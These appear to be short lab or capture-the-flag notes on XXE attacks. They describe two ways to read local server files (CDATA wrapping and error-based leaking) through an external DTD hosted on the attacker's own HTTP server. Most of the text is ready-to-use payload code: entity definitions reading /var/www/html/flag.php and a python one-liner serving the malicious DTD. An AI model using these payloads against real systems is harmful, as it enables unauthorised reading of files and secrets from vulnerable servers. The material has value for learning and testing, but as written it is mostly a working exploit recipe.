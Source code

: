 sometimes some file formats are not readable through basic XXE 

we can try to force it through errors

## CDATA
on our server
```
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
then on the payload
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">   <!ENTITY % file SYSTEM "file:///var/www/html/flag.php"> 
  <!ENTITY % end "]]>"> 
  <!ENTITY % xxe SYSTEM "http://10.10.15.25:8000/xxe.dtd"> 
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error based
not as reliable as CDATA as it may have length limitations and certain special characters may still break it

host a dtd file that contains the following payload
```
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

then we can our external DTD script 
```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://10.10.15.25:8000/xxe.dtd">
  %remote;
  %error;
]>
```
